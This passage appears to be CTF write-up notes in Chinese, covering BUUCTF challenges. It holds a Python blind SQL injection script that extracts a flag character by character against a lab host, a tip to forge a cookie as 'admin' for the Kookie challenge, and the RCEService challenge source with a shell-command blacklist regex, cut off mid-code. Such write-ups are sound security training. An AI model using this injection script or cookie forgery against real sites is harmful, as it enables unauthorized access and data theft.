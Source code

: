 ```
import requests

url = 'http://b72a85e9-236a-4b72-b8f7-93bbd3f65b4f.node3.buuoj.cn/?stunum='

flag=''
for i in range(1,50):
    min=32
    max=125
    while 1:
        j=min+(max-min)//2
        if min==j:
            flag+=chr(j)
            print(flag)
            break

        payload="if(ascii(substr((select/**/value/**/from/**/flag),%d,1))<%d,1,2)"%(i,j)

        r=requests.get(url=url+payload).text
        #print(r)

        if 'admin' in r:
            max=j
        else :
            min=j
```

---
# [BSidesCF 2019]Kookie
以cookie身份登录

![](https://img-blog.csdnimg.cn/d9d53b606cc74cb0a7578629136d0270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现cookie中的username为cookie，改为admin

---
# ***[FBCTF2019]RCEService
- preg_match的绕过姿势
- 关于路径和linux命令的相关知识

WP:  [Facebook CTF 2019 - Web ](https://xz.aliyun.com/t/5399)

开局一个框

![](https://img-blog.csdnimg.cn/2e8e085a489a4931b2e6c11c182127ac.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
需要使用JSON：JSON [数据格式 - SkySoot ](https://www.cnblogs.com/skysoot/archive/2012/04/17/2453010.html)

题目源码：
```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
```